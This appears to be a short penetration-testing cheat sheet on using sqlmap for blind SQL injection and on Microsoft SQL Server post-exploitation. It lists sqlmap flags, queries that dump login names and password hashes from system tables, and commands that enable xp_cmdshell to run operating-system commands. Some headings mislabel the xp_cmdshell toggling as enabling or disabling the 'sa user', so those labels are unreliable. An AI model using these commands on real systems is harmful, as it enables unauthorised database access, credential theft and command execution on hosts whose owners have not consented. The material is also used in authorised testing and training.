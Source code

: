 ## --string & --not-string

Web applications sometimes change their output in a way theat SQLMap cannot understand making blind exploitation impossible. In this scenario...

* append --string a string which is always present in true output pages
* append --not-string a string which is always present in false output pages

```
sqlmap -u <TARGET> --string "apache"
sqlmap -u <TARGET> --suffix "'));'
```

## more flags
```
--cookie
--risk
--level
--keep-alive
--threads
--technique
```

# Post exploitation

```
SELECT name, password FROM master..sysxlogins
SELECT name, password_hash FROM master.sys.sql_logins
EXEC master..xp_cmdshell '<command>' # sa user
```

### Enable sa user

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Disable sa user

```
EXEC sp_configure 'xp_cmdshell', 0;
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
```

### Ping

```
EXEC master.dbo.xp_cmdshell 'ping <target>'
```
